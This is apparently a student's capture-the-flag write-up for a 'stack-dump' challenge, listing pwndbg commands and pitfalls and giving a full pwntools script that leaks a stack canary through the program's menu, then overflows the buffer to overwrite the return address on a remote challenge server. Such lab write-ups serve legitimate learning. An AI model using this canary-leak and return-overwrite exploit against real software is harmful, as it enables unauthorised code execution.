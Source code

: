 _Some amazing pwndbg commands I used_

1. `x/w <address>`: Basically allows me to dump the whole stack from any place I want
2. `info registers`
3. `break` and `continue` and `ni`
4. `attach`: attaching to pwntools script
5. `disassemble`: disassembling on the fly

_Interesting points to note/Common pitfalls_

1. There is a dummy (??) gets call in there. When you put in the amount of characters to write to the buffer, you can give it large values. Perhaps that could be used to overwrite something?
2. The overflow is based on the fact that while `fread` and `fwrite` do write a specific number of bytes ~~into the buffer~~ onto the stack, giving control of the number of bytes to write to the user is the same as not asking for them.
3. I was stuck for a long time because I did not know about the `x/w` command in gdb. Using the disassembly to find where the canary is located and dumping it atleast in gdb is very important. I thought my canary was correct for a while before I figured this out.
4. The significance of the last step in the process. While the first 5 steps overwrite the buffer safely, only after performing step 6 is a ret instruction executed. So the code flow would not change if that is not done. I was stuck on it for a while because I did not realize this.

```
#!/usr/bin/python3

from pwn import *

# p = process('./stack-dump')
p = remote('plsdonthaq.me', 2004)

# pause()                                       # ah. debugging

padding = b'A' * 96

p.readuntil('useful stack pointer ')
point = p.readuntil('\n', drop=True)            # Useful stack pointer is very useful

p.sendline('a')
p.sendline('4')
p.sendline(p32(int(point, 16) + 0x69))
p.sendline('b')

read = p.readuntil(': ')                        # Reading all the input I should have read before
read2 = p.readuntil(': ')

canary = p.recvuntil('\n')[:4]                  # Extracting my canary

returnPadding = b'A' * 8
ret = p32(0x080486c6)

p.sendline('a')
p.sendline('112')								# 96 + 4 + 8 + 4 bytes
p.sendline(padding + canary + returnPadding + ret)

p.sendline('d')                                 # Quitting the program.

p.interactive()
```

## Conclusion

---

Bof hard.  
Very leet indeed.  
The fact that I enjoyed it anyway makes me worried about my future.

